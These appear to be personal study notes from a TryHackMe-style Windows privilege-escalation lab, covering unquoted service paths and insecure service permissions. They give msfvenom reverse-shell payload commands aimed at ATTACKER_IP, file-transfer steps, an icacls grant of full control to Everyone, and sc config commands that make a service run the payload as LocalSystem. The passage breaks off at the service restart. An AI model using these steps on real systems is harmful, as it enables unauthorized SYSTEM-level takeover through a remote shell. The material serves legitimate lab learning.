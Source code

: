 
## Unquoted Service Paths
### Description
When we can't directly write into service executables, there still might be a chance to force a service into running arbitrary executables.

This is when a Binary Path isn't in quotes. When the command is run it will see the spaces in the path and take them as arguments. This means when it runs it will first look for everything before the space if nothing is found then it moves onto adding the first argument then keeps repeating until it finds something it can execute.

We step in by making a file that matches anything before the full path so we can highjack it.

### Commands
1. `sc qc <FILE_NAME>`
2. Once we find one then can proceed
3. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc2.exe`
4. Start a listener on our machine
5. Now get it onto the victim using a python server on our machine and wget on Powershell on the victim
6. Next get it moved to our location and name it the correct based on what we found
7. `icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F`
8. Now stop/start the service with `sc stop <SERVICE_NAME>`
9. pwnd


## Insecure Service Permissions
### Description
This involves checking the service DACL not the executables DACL. We want to see if the general service DACL allows us to edit the permissions. If we are able to find this then we can setup the Path to execute any executable with whatever user we like including SYSTEM.

### Download
[Accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) = This can be used to check the service DACL from cli but it needs to be installed or transferred to the target

### Commands
1. Navigate to program you are using to search the service DACL in this case we are using **Accesschk**
2. `accesschk64.exe -qlc thmservice`
	- We are calling the .exe and feeding it the service name of "thmservice"
3. We are looking for the following highlighted text or something along these lines that indicates either all or a user we have access to can edit:
![[Pasted image 20230111195849.png]]
4. Next up we need a payload which we can get from msfvenom
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe
```
5. Start a listener on the same port you created the payload
6. Start a python server so we can transfer the attack
7. On the victims machine using Powershell we can use `wget`
8. Once its on the victims machine we need to set its file permission to include everyone
```shell-session
icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```
9. Finally we need to set the vuln service to execute this new executable:
```shell-session
sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```
10. Now reboot the service: